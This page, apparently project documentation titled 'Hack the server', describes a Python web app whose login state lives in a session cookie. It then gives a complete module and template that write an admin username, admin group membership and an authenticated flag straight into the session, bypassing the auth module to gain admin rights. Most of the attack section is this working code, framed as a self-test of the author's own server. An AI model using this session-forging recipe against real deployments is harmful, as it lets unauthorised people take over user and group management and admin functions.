 # Web App Server

## Hack the server

The security of server is maintained by encripted cookies and encripted client-server connection.

Once the **auth** module accept the user+password combination, a cookie is set and user is authenticated.

Inside the cookie there are user info used to validate application access.

If we bypass the **auth** module (using a crafted **auth**) and populate 
cookie with admin info, we become admins.

Create **``__``init``__``.py** :

```python
#
# An web server module
# used to hack the server
#

from appmodule import AppModule

app = AppModule()

def getApp():
    return app

@app.route("/")
@app.view("index.tpl")
def _():
    bs = app.get_beaker_session()
    bs["username"] = "hackadmin"
    bs["userfullname"] = "Hacker Admin"
    #the userid may be any id
    bs["userid"] = 1000
    #Hacker Admin groups: All users, Anonymous and Admins
    bs["groups"] = [-1,0,1]
    bs["authenticated"] = True
    return dict(title = "Hacker Admin")

```

Create **index.tpl** inside of **view** folder:

```html
% include("header.tpl")

<h1>{{title}}</h1>
You are admin now.<br>
Go to <a href="/auth/users">Manage users</a>
or to <a href="/auth/groups">Manage groups</a>
or to <a href="/adm">Admin module</a>

% include("footer.tpl")
```

Even if is not needed, create a JSON file named **config.json** in the module folder
(where is **``__``init``__``.py** located) using the 
[Application web config editor](https://github.com/icoman/PropertiesEditor_v1) and template for **Web Config Document**.

Don't forget to delete this module after you finish the tests.
